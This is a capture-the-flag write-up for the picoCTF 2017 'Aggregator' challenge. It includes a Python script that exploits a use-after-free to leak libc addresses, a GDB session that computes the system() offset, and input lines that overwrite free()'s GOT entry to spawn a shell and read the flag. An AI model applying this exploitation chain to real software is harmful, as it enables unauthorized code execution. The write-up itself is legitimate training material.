 # Aggregator

```
I wrote a program to help me synthesize my log files. You can edit the log files to add annotations that will print out aggregated information. Because the original program that outputs the logs was a bit faulty, I also included the ability to clear a single day of logs.
Find my aggregator running on shell2017.picoctf.com:13902. aggregator.c aggregator
HINTS
Does it look like there is a stack vulnerability?
```

We noticed that there was a use-after-free error, so we played around with inputs in GDB until we got a writable data pointer that also pointed to the location of an active table entry. Then we wrote over the pointer to the table entry's data with the pointer to the GOT address of free() in order to leak the location of free to the console. We used the following python script

```python
output = "3-1-1 999\n"
output += "2-1-1 420\n"
for i in range(1, 42): # Adding 41 values to 4-1-1 causes the size to increase to 80 (10 doubles to 20 and so on)
  output += "4-1-1 " + str(i) + "\n" # This is large enough to cause a chain to be allocated over the pointer
output += "~2-1-1\n" # To be honest, I just kind of guessed from here on until I got a pointer I could use in GDB
output += "~3-1-1\n"
output += "~4-1-1\n"
output += "5-1-1\n" # Now creating 1-1-1 will have a data pointer that goes to the 4-1-1 metadata
output += "1-1-1 6299376\n" # Sets 4-1-1's data pointer to the GOT
output += "1-1-1 72340172838076673\n" # Sets the day to 1 (0x0101010101010101 as day is stored as an 8 bit unsigned integer)
output += "1-1-1 18446744073709551615\n" # Sets size to something very large
output += "1-1-1 1\n" # Size should be 1 so we can isolate the pointer
output += "1-1-1 0\n" # Next chain should be NULL
output += "am 4-1\n" # Prints the minimum of the one value pointed at by 4-1 (the GOT)
print output
```

Next we had to find the offset between the actual address of free() and system() at runtime in GDB. The values at the given GOT addresses at runtime. We did this by attaching GDB to the running process after leaking the glibc address of free. It was important to do this on a system running the same version of libc as the shell server, so we just carried out this step on the shell server.

```
$ (python aggregator.py; cat) | ./aggregator
140283963758080
^Z[2] + Stopped                    (python aggregator.py; cat) | ./aggregator
$ gdb -q -p `pidof aggregator`
Excess command line arguments ignored. (21905)
22110: No such file or directory.
Attaching to process 23535

Program received signal SIGTSTP, Stopped (user).
Reading symbols from /home/rjm27trekkie/aggregator...(no debugging symbols found)...done.
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/libc-2.19.so...done.
done.
Loaded symbols for /lib/x86_64-linux-gnu/libc.so.6
Reading symbols from /lib64/ld-linux-x86-64.so.2...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/ld-2.19.so...done.
done.
Loaded symbols for /lib64/ld-linux-x86-64.so.2
0x00007f9667d9cba0 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:81
81      ../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb) p system
$1 = {<text variable, no debug info>} 0x7f9667d02490 <__libc_system>
(gdb) q
A debugging session is active.

        Inferior 1 [process 23535] will be detached.

Quit anyway? (y or n) y
Detaching from program: /home/rjm27trekkie/aggregator, process 23535
$ python -c "print '{0:02x}'.format(0x7f9667d02490 - 140283963758080)"
-3b170
$
```

The inputs after this point will change every time. They will need to take the following format.

```
aM 4-1 THIS PRINTS THE ADDRESS OF FREE
4-1-1 ADDRESS OF SYSTEM (offset: -0x3b170)
4-1-1 ADDRESS OF SYSTEM
a+ 1-1 ; /bin/sh
```

We pipe the output of the script into the program. Then we add the offset to the address for free, writing system() to the GOT entry. Finally, a line containing "; /bin/sh" is added so that program would call system("/bin/sh") when it attempts to call free(). This gives a shell. Then we just we cat the flag. 

```
$ (python aggregator.py; cat) | nc shell2017.picoctf.com 13902
140627465098752
4-1-1 140627464856720
4-1-1 140627464856720
a+ 1-1 ; /bin/sh
sh: 1: a+: not found
ls
aggregator
flag.txt
xinetd_wrapper.sh
cat flag.txt
5eaacf941a181a45e0b17327842a72f5
```
